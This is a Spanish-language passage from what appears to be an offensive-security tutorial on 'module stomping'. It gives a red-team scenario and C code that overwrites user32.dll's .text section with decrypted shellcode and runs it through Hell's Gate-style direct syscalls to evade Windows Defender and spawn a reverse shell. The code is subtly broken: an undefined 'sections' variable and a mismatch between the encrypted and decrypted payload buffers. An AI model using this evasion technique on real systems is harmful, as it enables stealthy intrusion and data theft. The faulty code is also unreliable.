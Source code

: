 Ejemplo: En HookStomp, stomping usa syscalls para parsing PEB y ejecución, combinando con unhooking para full evasión.

**Ejemplo Imaginario para Entender Module Stomping:**
Imagina que eres un red teamer infiltrándote en un servidor Windows con Defender activo. Tienes un payload encriptado (shellcode para exfiltrar datos). En lugar de inyectar en un proceso remoto (que Defender detectaría via hooks), eliges user32.dll, cargada en tu proceso. Abres Process Hacker, ves la base de user32.dll (e.g., 0x7FF8A0000000). Usas un script para parsear su PE: encuentras .text en offset 0x1000, tamaño 0x50000 bytes. Cambias protecciones con NtProtectVirtualMemory (syscall directo), desencriptas payload (XOR con key 0xAA), y copias sobre .text. Creas un hilo con NtCreateThreadEx apuntando a la base de user32.dll. El hilo ejecuta tu payload, spawneando un reverse shell sin alertas. ¡El servidor piensa que es una llamada legítima a user32.dll! Si algo sale mal, el crash parece un bug del sistema, no malware.

**Implementación Genérica:**
- Usar PEB para módulos sin APIs.
- Desencriptar on-the-fly.
- Verificar tamaño: Payload < .text size.

**Ejemplos de Código Avanzados:**
```c
// Función para desencriptar (XOR simple)
void DecryptPayload(PBYTE payload, SIZE_T size, BYTE key) {
    for (SIZE_T i = 0; i < size; i++) {
        payload[i] ^= key;
    }
}

// Module stomping con syscalls
HMODULE hModule = GetModuleHandle(L"user32.dll");
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)hModule;
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PBYTE)dos + dos->e_lfanew);
PIMAGE_SECTION_HEADER textSec = NULL;

for (int i = 0; i < nt->FileHeader.NumberOfSections; i++) {
    if (strcmp((char*)sections[i].Name, ".text") == 0) {
        textSec = &sections[i];
        break;
    }
}

PVOID textAddr = (PBYTE)hModule + textSec->VirtualAddress;
SIZE_T textSize = textSec->Misc.VirtualSize;

// Desencriptar
DecryptPayload(encryptedPayload, payloadSize, 0xAA);

// Cambiar protecciones con syscall
WORD ssnProtect = GetSSN("NtProtectVirtualMemory");
ULONG oldProtect;
HellsGate(ssnProtect);
HellDescent(NtCurrentProcess(), &textAddr, &textSize, PAGE_EXECUTE_READWRITE, &oldProtect);

// Copiar
memcpy(textAddr, decryptedPayload, min(payloadSize, textSize));

// Crear hilo con syscall
WORD ssnThread = GetSSN("NtCreateThreadEx");
HANDLE hThread;
HellsGate(ssnThread);
HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, NtCurrentProcess(), (PVOID)textAddr, NULL, FALSE, 0, 0, 0, NULL);

// Ejecutar y esperar
WaitForSingleObject(hThread, INFINITE);
```